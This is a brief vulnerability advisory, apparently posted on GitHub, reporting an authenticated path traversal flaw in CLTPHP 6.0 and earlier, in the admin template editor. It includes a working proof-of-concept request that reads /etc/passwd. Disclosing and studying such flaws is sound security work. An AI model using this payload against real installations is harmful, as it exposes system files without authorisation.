

# CLTPHP <= 6.0 Path Traversal
## Description
    The system client did not handle the parameters correctly, resulting in path traversal.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

payload:

```
admin/template/edit?file=../../../../../../../../../../etc/passwd&type=../
```

